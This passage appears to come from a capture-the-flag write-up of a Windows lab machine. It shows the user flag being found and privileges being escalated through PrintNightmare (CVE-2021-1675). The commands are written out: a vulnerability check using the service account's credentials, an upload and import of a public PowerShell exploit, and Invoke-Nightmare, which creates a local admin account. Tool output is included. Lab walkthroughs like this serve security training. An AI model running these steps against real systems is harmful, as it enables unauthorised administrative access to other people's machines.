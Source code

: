 Success! Changing over to the **Desktop** directory shows us the user.txt flag, which we can display:

```
    Directory: C:\Users\svc-printer\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        2/24/2022  12:52 PM             34 user.txt
```

Given we have a printer exposed to the internet I check to see if it's vulnerable to **PrintNightmare**:

`./printnightmare.py -check 'svc-printer:1edFg43012!!@10.10.11.108'`

```
Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation

[*] Target appears to be vulnerable!
```

Looks like it is and we should be able to escalate privileges using it. You can download the [**PowerShell script**](https://github.com/calebstewart/CVE-2021-1675) from this repository created by Caleb Stewart and John Hammond over to your local machine.

Then, change over to this directory on the target machine: `cd C:\windows\system32\spool\drivers\color`

Upload the PowerShell script using the `upload <filename>` command.

Once it's there run the following to import the module:

`Import-Module .\CVE-2021-1675.ps1`

Then just run the `Invoke-Nightmare` command and it will create a user for you that has admin privileges.

```
*Evil-WinRM* PS C:\windows\system32\spool\drivers\color> Invoke-Nightmare
[+] using default new user: adm1n
[+] using default new password: P@ssw0rd
[+] created payload at C:\Users\svc-printer\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\mxdwdrv.dll"
[+] added user  as local administrator
[+] deleting payload from C:\Users\svc-printer\AppData\Local\Temp\nightmare.dll
```

<br>

## Admin

We now have user **adm1n** with a password of **P@ssw0rd** and it should have admin privileges.

I verify the permissions of the new user `net user adm1n`:
